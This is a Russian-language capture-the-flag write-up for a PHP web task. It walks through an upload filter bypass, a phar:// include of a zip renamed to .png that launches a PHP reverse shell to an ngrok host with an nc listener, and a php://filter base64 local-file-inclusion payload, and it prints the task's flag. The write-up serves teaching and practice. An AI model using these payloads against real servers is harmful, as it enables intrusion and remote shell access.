

# 41 72 63 68 69 76 65
Не помню описание, пусть будет...
<br>Кажись в архивах дело...

## Hint
phar

# WriteUp

## Инструменты
[BurpSute](https://portswigger.net/burp) **P.S.** некоторые почему-то называют его бАрп
<br>[ngrok](https://ngrok.com/)
<br>[netcat](https://netcat.sourceforge.net/)

## Решение
Посмотрим на начальную страницу сервиса


Анализ любого **Web`a** начинается с просмотра кода страницы.

В данном случае в коде страницы мы видим следующее:

```html
<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="https://cdn.muicss.com/mui-latest/css/mui.min.css" rel="stylesheet" type="text/css"/>
    <script src="https://cdn.muicss.com/mui-latest/js/mui.min.js"></script>
    <title>Injection</title>
</head>
<!--include.php -->
<body>
<div id="content" class="mui-container-fluid">
    <div class="mui-row">
        <div class="mui-col-sm-10 mui-col-sm-offset-1">
            <br>
            <br>
            <div class="mui--text-black-54 mui--text-body2"><h1>What do you know about archives?</h1></div>
            <div class="mui-divider"></div>
            <br>
            
        </div>
    </div>
</div>
</body>
</html>
```

В коде страницы мы видим комментарий **include.php**, что намекает нам на то, что есть такая страница, давайте перейдем на нее...


На данной странице мы видим подсказку, что нужно использовать параметр **file**, но пока что нам это ничего не дает.

Пробуем дальше посмотреть исходный код уже этой страницы.

Что мы видим?!

```html
<html>
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="https://cdn.muicss.com/mui-latest/css/mui.min.css" rel="stylesheet" type="text/css"/>
    <script src="https://cdn.muicss.com/mui-latest/js/mui.min.js"></script>
    <title>Injection</title>
</head>
<body>
<div id="content" class="mui-container-fluid">
    <div class="mui-row">
        <div class="mui-col-sm-10 mui-col-sm-offset-1">
            <br>
            <br>
            <div class="mui--text-black-54 mui--text-body2"><h1>Tips: the parameter is file! :)</h1></div>
        </div>
    </div>
</div>
<!-- upload.php -->
</body>
</html>
```

Видим очередной комментарий, что есть страница **upload.php**, перейдем на нее.
<br>не закрываем страницу **include.php** она нам еще понадобится.

Видим следующую страницу, с какими-то странными угрозами от администратора сервиса...


Что-то подобное мы уже видели в другом таске [Просто php](../Просто%20php)

Так что попробуем решать точно так же...

Мы понимаем, что сервис предлагает нам загрузить какой-нибудь файл.

Но прежде чем загружать файл откроем [BurpSute](https://portswigger.net/burp), чтобы
мы могли отслеживать передаваемую информацию.
После чего пробуем загрузить любой рандомный файл.

Как видим, сервер нам ответил ошибкой загрузки файла.
<br>**upload faild!**

Видим, что фильтрация здесь настроена уже иначе нежеле в прошлом таске. И просто изменив **Хедер**
**Content-Type:** нам не поможет.

Попробуем отправить рандомный файл, но уже формата **картинки** или **гифки**, и видим, что загрузка успешно проходит, не смотря на то, что мы просто поменяли расширение файла.


Из чего мы приходим к выводу, что загрузить нам надо именно в формате **картинки**.

Раз мы научились загружать файлы, нам в голову должно прийти, что мы можем загрузить **Shell code
** на сервер.
Чтобы не мучиться и не писать **reverse shell** самостоятельно, загуглим любой **php reverse shell**.
К примеру первый попавшийся в интернете [**PHP REVERSE SHELL**](https://github.com/pentestmonkey/php-reverse-shell).
Скачиваем его себе.(скоро мы к нему вернемся)

Но просто изменить расширение файла нам не поможет, мы не сможем обратиться к файлу.

Если обратить внимание на **кучу** "пасхалок" к заданию, можно понять, что нам говорят про какие-то "архивы".
<br>А с учетом того, что мы работаем с **php** скриптами, нам в голову должен прийти определенный вид архивов.
И это [**phar**](https://www.php.net/manual/en/book.phar.php).

Исходя из документации [**phar**](https://www.php.net/manual/en/book.phar.php) умеет работать с различными архивами(с какими конкретно, лучше обртиться к документации)
мы будем использовать **zip** архивы.

Приступим к подготовке нашего **reverse shell`а**.

**P.S.** В данный момент сервис у меня запущен локально, но я покажу то, как нужно делать, если 
сервис висит во внешней сети, а белого ip-адреса у вас нет.

Так как белого ip-адреса у нас нет, нам на помощь придет утилита [**ngrok**](https://ngrok.com/)
(при первом запуске утилиты, возможно потребуется регистрация).

Команда запуска утилиты очень простая:

```sh
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ ngrok tcp 1337  
```

После чего у нас открывается окно [**ngrok**](https://ngrok.com/) (впадать в объяснения принципа работы утилиты не буду, сами изучите).


```bash
ngrok                                                                                                                                       (Ctrl+C to quit)
                                                                                                                                                            
Announcing ngrok-rs: The ngrok agent as a Rust crate: https://ngrok.com/rust                                                                                
                                                                                                                                                            
Session Status                online                                                                                                                        
Account                       MrNansy (Plan: Free)                                                                                                          
Update                        update available (version 3.2.2, Ctrl-U to update)                                                                            
Version                       3.2.1                                                                                                                         
Region                        Europe (eu)                                                                                                                   
Latency                       -                                                                                                                             
Web Interface                 http://127.0.0.1:4040                                                                                                         
Forwarding                    tcp://6.tcp.eu.ngrok.io:11768 -> localhost:1337                                                                               
                                                                                                                                                            
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                   
                              0       0       0.00    0.00    0.00    0.00       
```

В дополнительном окне терминала запускаем прослушивание порта 1337.
```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
```

Теперь можно вернуться к нашему скачанному **PHP REVERSE SHELL**

Открываем его на редактирование и меняем нужные нам параметры, а конкретно:
<br>**ip**
<br>**port**



**К примеру:**

<table>
<tr>
<td><b> Было </td> <td><b> Стало </td>
</tr>
<tr>
<td> 

```php
$ip = 127.0.0.1;  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```
</td>
<td>

```php
$ip = '6.tcp.eu.ngrok.io';
$port = 19987;
```

</td>
</tr>
</table>

**P.S.**: Значения берем из окна [**ngrok**](https://ngrok.com/).

И так, у нас готов **reverse shell**, но закинуть в таком виде в сервис мы его не можем.
<br>Поэтому, раз уж у нас подсказка на архивы, запакуем наш **reverse shell** в **zip** архив.

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ zip reverse.zip reverse.php
  adding: reverse.php (deflated 59%)
```

Но так как мы можем загружать на сервер только картинки, то изменим наше расширение с **.zip** на **.png**.

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ cp reverse.zip reverse.png       
                                                                                                                                                            
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ ls
reverse.png  reverse.zip
```

Осталось только загрузить нашу **"картинку"** на сервер.


Как видим наша **"картинка"** успешно загружена, а так же указан путь загрузки файла.
<br>**Array upload successful! Save in: upload/reverse.png**

Теперь давайте обратимся к нашему файлу, не забываем, что это у нас **архив**, не смотря на то, что расширение другое.

Вспоминаем, что у нас есть страница **include.php**, и что там есть подсказка **"используйте параметр file"**.
<br>Собственно давайте воспользуемся данным параметром и откроем наш архив при помощи [**phar**](https://www.php.net/manual/en/book.phar.php).

Допишем в адресную строку обращение к архиву и откроем файл запакованный в него.
<br>**Пример:**
http://178.25.13.24:43441/include.php?file=phar://upload/reverse.png/reverse

После чего видим, что страница долго грузится...

Тут можно вернуться в окно терминала где у нас включена прослушка порта, и увидим установленное 
**reverse shell** подключение

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47504
Linux a17f12c3b756 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
~ $ /bin/sh: can't access tty; job control turned off
```

Сразу проверяем под каким пользователем мы находимся в системе и доступы к каким файлам у на имеются

```bash
┌──(kali㉿kali)-[~/RDG/exim4]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 57710
Linux 66e44f703c68 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
/bin/sh: can't access tty; job control turned off
~ $ whoami
nobody
~ $ ls -la
total 68
drwxr-xr-x    1 root     root          4096 Apr  7 00:32 .
drwxr-xr-x    1 root     root          4096 Apr  7 00:32 ..
-rwxr-xr-x    1 root     root             0 Apr  7 00:32 .dockerenv
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 bin
drwxr-xr-x    5 root     root           340 Apr  7 00:32 dev
drwxr-xr-x    1 root     root          4096 Apr  7 00:32 etc
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 home
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 lib
drwxr-xr-x    5 root     root          4096 Feb 10 16:45 media
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 opt
dr-xr-xr-x  349 root     root             0 Apr  7 00:32 proc
drwx------    2 root     root          4096 Feb 10 16:45 root
drwxr-xr-x    1 nobody   nobody        4096 Apr  7 00:32 run
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv
dr-xr-xr-x   13 root     root             0 Apr  7 00:32 sys
drwxrwxrwt    1 root     root          4096 Apr  7 00:51 tmp
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 usr
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 var
```

Видим что максимальное количество прав на папку **/tmp**

Можно в ней поискать наш флаг с помощью утилиты **grep**.

```bash
~ $ grep -r "RDGCTF" /tmp
```

Но поиск ничего не дает. Попробуем поискать в папке **/var**, так как там обычно хранятся исходники сервисов.

```bash
~ $ grep -r "RDGCTF" /var
/var/www/html/include.php:/* RDGCTF{I_am_so_filled_with_my_knowledge_that_I_seem_to_have_already_One_hundred_trillion_billion_years_I_'ve_been_living_on_trillions_and_trillions_of_planets_like_this_Earth,_to_me_this_world_is_absolutely_it_is_clear,_and_I_am_looking_for_only_one_thing_here_-_peace,_tranquility_and_here_is_this_harmony,_from_merging_with_the_infinitely_eternal,_from_contemplation_the_great_fractal_similarity_and_from_this_wonderful_unity_a_being_infinitely_eternal,_wherever_you_look,_even_deep_down_-_infinitely_small,_though_up_-_infinite_big,_do_you_understand?} */
~ $
```
Как видим поиск вышел удачным. Мы получили флаг. Как оказалось он лежит прямо в файле **include.php**


## Альтернативное решение

Поблагодарим команду **smiley-from-telega** которые прислали нам альтернативное решение.

Из-за того, что флаг находится непосредственно в файле **include.php**, мы можем использовать следующую **PHP** инъекцию.

```html
http://185.241.194.80:41003/include.php?file=php://filter/convert.base64-encode/resource=include
```

После чего мы прямо на странице получаем строчку вывода в **Base64**


Скопировав ее в [CyberChef](https://cyberchef.org/)
<br>Декодируем ее (можно воспользоваться волшебной палочкой)
Получим наш флаг.


**P.S.** В следующий раз такой ошибки не допустим)

# Flag
RDGCTF{I_am_so_filled_with_my_knowledge_that_I_seem_to_have_already_One_hundred_trillion_billion_years_I_'ve_been_living_on_trillions_and_trillions_of_planets_like_this_Earth,\_to_me_this_world_is_absolutely_it_is_clear,\_and_I_am_looking_for_only_one_thing_here_-\_peace,\_tranquility_and_here_is_this_harmony,\_from_merging_with_the_infinitely_eternal,\_from_contemplation_the_great_fractal_similarity_and_from_this_wonderful_unity_a_being_infinitely_eternal,\_wherever_you_look,\_even_deep_down_-\_infinitely_small,\_though_up_-_infinite_big,_do_you_understand?}